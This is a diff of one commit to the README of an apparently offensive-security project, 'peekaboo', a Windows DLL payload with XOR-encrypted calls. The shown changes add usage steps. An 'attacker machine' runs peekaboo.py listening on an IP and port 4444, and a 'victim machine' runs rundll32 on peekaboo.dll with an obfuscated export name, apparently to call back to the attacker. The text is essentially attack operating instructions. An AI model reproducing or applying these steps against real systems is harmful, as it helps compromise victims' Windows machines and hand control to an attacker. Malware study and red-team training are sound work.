

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; pictures changed too: screenshots/1.png (added), screenshots/2.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -9,11 +9,23 @@ XOR encryption and decryption for functions call and main payload - `calc.exe` a
 ## Usage
 ## 1. DLL
 ### on attacker machine
+
+check your IP:
+```bash
+ip a
+```
+
+![attacker machine IP](./screenshots/1.png?raw=true)
+
 run python script with flags:
 ```bash
-python3 peekaboo.py -l 10.10.14.3 -p 4444
+python3 peekaboo.py -l 10.9.1.6 -p 4444
 ```
+
+![run python script](./screenshots/2.png?raw=true)
 
 ### then on victim machine (windows x64):
 run on powershell or cmd promt:
+```cmd
+rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
 ```
````
Also changed, not shown: other parts of README.md (+10 -2 lines), screenshots/3.png (added), screenshots/4.png (added), screenshots/5.png (added), 1 other file.
